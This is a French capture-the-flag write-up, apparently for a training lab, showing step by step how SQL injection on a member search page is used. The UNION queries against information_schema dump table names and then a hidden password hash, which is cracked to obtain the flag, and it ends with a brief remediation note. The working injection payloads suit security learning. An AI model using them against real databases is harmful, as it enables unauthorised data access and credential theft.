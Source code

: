 sur http://192.168.99.102/?page=member

On peu voir un field pour rechercher par Id.

Si on entre 1 OR 1 = 1:
First name: Flag
Surname : GetThe

On peux voir qu'un first name est "Flag"

Avec la requete suivante: 
```sql
1 AND MID(VERSION(),1,1) = 5;
```

On obtiens la version de mysql... pas utile 


Avec la requete suivante: 
```sql
1 UNION SELECT * FROM Users
```

on obtiens une erreur: Table 'Member_Sql_Injection.Users' doesn't exist
on en deduis le nom de la db: Member_Sql_Injection


```sql
1 UNION SELECT * FROM Users
1 AND 1=2 UNION ALL SELECT * FROM information_schema.columns
```

Nous avons une erreur:
The used SELECT statements have a different number of columns

parce que "select * from ..." est la sélection de toutes les colonnes du tableau des users.
c'est pourquoi lorsque nous avons essayé d'unir plus de 2 colonnes avec elle, nous avons cette erreur.

En essayant de select que deux colonnes avec cette commande:
```sql
1 AND 1=2 UNION ALL SELECT table_name, column_name FROM information_schema.columns
```

Nous affiche toutes les tables et colonnes
On peux voir la table qui nous interesse ici c'est: Users
qui contient les colonnes suivantes:
user_id
first_name
last_name
town
country
planet
Commentaire
countersign

testons alors les deux dernieres qui ont l'air suspectes.... :

```sql
1 AND 1 = 2 UNION ALL SELECT countersign, Commentaire FROM users
```
bingo !


```
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !


5ff9d0165b4f92b14994e5c685cdce28: FortyTwo
=> lower + sh256 = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

Amelioration:

Gerer les sqli, protegers les strings envoyer en request.


